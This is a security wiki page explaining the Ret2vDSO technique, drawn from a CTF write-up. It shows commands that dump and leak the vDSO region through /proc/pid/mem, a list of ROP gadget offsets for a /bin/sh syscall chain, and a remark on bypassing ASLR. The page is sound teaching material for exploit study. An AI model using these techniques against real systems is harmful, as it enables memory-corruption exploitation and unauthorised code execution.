 # Ret2vDSO

{{#include ../../banners/hacktricks-training.md}}

## Basic Information

There might be **gadgets in the vDSO region**, which is used to change from user mode to kernel mode. In these type of challenges, usually a kernel image is provided to dump the vDSO region.

Following the example from [https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/maze-of-mist/](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/maze-of-mist/) it's possible to see how it was possible to dump the vdso section and move it to the host with:

```bash
# Find addresses
cat /proc/76/maps
08048000-08049000 r--p 00000000 00:02 317                                /target
08049000-0804a000 r-xp 00001000 00:02 317                                /target
0804a000-0804b000 rw-p 00002000 00:02 317                                /target
f7ff8000-f7ffc000 r--p 00000000 00:00 0                                  [vvar]
f7ffc000-f7ffe000 r-xp 00000000 00:00 0                                  [vdso]
fffdd000-ffffe000 rw-p 00000000 00:00 0                                  [stack]

# Dump it
dd if=/proc/76/mem of=vdso bs=1 skip=$((0xf7ffc000)) count=$((0x2000))
8192+0 records in
8192+0 records out
8192 bytes (8.0KB) copied, 0.901154 seconds, 8.9KB/s

# Compress and leak it
gzip vdso
base64 vdso.gz

# Decompress and check of gadgets
echo '<base64-payload>' | base64 -d | gzip -d - > vdso
file vdso
ROPgadget --binary vdso | grep 'int 0x80'
```

ROP gadgets found:

```python
vdso_addr = 0xf7ffc000

int_0x80_xor_eax_eax_ret_addr = 0x8049010
bin_sh_addr = 0x804a800

# 0x0000057a : pop edx ; pop ecx ; ret
pop_edx_pop_ecx_ret_addr = vdso_addr + 0x57a

# 0x00000cca : mov dword ptr [edx], ecx ; add esp, 0x34 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
mov_dword_ptr_edx_ecx_ret_addr = vdso_addr + 0xcca

# 0x00000ccb : or al, byte ptr [ebx + 0x5e5b34c4] ; pop edi ; pop ebp ; ret
or_al_byte_ptr_ebx_pop_edi_pop_ebp_ret_addr = vdso_addr + 0xccb

# 0x0000015cd : pop ebx ; pop esi ; pop ebp ; ret
pop_ebx_pop_esi_pop_ebp_ret = vdso_addr + 0x15cd
```

> [!CAUTION]
> Note therefore how it might be possible to **bypass ASLR abusing the vdso** if the kernel is compiled with CONFIG_COMPAT_VDSO as the vdso address won't be randomized: [https://vigilance.fr/vulnerability/Linux-kernel-bypassing-ASLR-via-VDSO-11639](https://vigilance.fr/vulnerability/Linux-kernel-bypassing-ASLR-via-VDSO-11639)

### ARM64

After dumping and checking the vdso section of a binary in kali 2023.2 arm64, I couldn't find in there any interesting gadget (no way to control registers from values in the stack or to control x30 for a ret) **except a way to call a SROP**. Check more info int eh example from the page:

{{#ref}}
srop-sigreturn-oriented-programming/srop-arm64.md
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}



